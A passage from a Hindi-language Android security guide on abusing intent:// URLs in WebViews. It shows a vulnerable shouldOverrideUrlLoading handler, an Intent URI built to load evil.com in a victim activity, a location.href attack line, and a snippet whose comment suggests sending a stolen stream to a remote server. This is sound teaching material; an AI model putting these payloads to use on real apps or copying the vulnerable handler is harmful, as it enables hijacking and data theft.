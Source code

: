 `LeakActivity.java`
```java
InputStream i = getContentResolver().openInputStream(getIntent().getData()); // we can now do whatever we like with this stream, e.g. send it to a remote server
```
## WebView के माध्यम से अनियमित कॉम्पोनेंट्स तक पहुंच

एक Intent ऑब्जेक्ट को `Intent.toUri(flags)` के द्वारा एक स्ट्रिंग में कास्ट किया जा सकता है और स्ट्रिंग से एक Intent में वापस किया जा सकता है `Intent.parseUri(stringUri, flags)` का उपयोग करके। यह फंक्शनालिटी अक्सर WebView (ऐप के अंदर बने ब्राउज़र) में उपयोग की जाती है: **ऐप `intent://` स्कीम को सत्यापित कर सकता है, URL को Intent में पार्स कर सकता है और एक्टिविटी को लॉन्च कर सकता है**।

**यह सुरक्षा कमजोरी दूसरी सुरक्षा कमजोरियों** (उदाहरण के लिए, क्लाइंट ऐप में अनियमित लिंक को WebView में सीधे निर्यात किए गए गतिविधियों के माध्यम से खोलने की क्षमता या डीपलिंक मेकेनिज़्म के माध्यम से) और दूरस्थ रूप से, सर्वर साइड पर क्रॉस-साइट स्क्रिप्टिंग या क्लाइंट साइड पर MitM के माध्यम से उपयोग किया जा सकता है।

विकल्पित कोड का उदाहरण
```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
Uri uri = request.getUrl();
if("intent".equals(uri.getScheme())) {
startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
return true;
}
return super.shouldOverrideUrlLoading(view, request);
}
```
यहाँ बात यह है कि `WebViewClient` की कक्षा की `shouldOverrideUrlLoading(...)` विधि हर बार WebView एक नया लिंक लोड करने का प्रयास करता है, लेकिन ऐप्लिकेशन को एक कस्टम हैंडलर जोड़ने का विकल्प देता है।

इस सुरक्षा की कमजोरी का शोषण करने के लिए हमलावार को एक WebView पुनर्निर्देशित करने की आवश्यकता होती है जो विशेष रूप से तैयार किए गए intent-scheme URL पर पुनर्निर्देशित होता है। URL निर्माण का उदाहरण
```java
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://evil.com/");
Log.d("evil", intent.toUri(Intent.URI_INTENT_SCHEME)); // outputs "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fevil.com%2F;end"
```
उदाहरण हमला
```java
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fevil.com%2F;end";
```
यह संस्करण विकुलनियता के क्लासिक संस्करण की तुलना में कई प्रतिबंध हैं:

* एम्बेडेड `Parcelable` और `Serializable` ऑब्जेक्ट्स को स्ट्रिंग में कास्ट नहीं किया जा सकता है (उन्हें अनदेखा कर दिया जाएगा)
* `Intent.parseUri(...)` को कॉल करते समय असुरक्षित फ्लैग `Intent.FLAG_GRANT_READ_URI_PERMISSION` और `Intent.FLAG_GRANT_WRITE_URI_PERMISSION` को **अनदेखा** किया जाता है। पार्सर केवल उन्हें छोड़ देगा अगर `Intent.URI_ALLOW_UNSAFE` (`startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE))` फ्लैग सेट होता है, जो बहुत ही दुर्लभ है।
